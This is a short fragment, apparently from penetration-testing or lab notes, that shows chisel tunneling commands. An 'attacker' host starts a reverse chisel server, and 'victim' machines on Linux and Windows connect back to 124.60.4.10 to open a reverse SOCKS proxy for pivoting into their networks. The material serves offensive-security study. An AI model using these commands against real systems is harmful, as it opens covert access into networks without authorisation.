 ```bash
# attacker
$ chisel server -p 10505 --reverse
```

![Untitled](/assets/2024-03-20//Untitled%2025.png)

## Linux

```powershell
# victim
$ ./chisel_1.9.1_linux_amd64 client 124.60.4.10:10505 R:socks
```

![Untitled](/assets/2024-03-20//Untitled%2026.png)

# Window

```powershell
# victim
> .\chisel.exe client 124.60.4.10:10505 R:socks
```
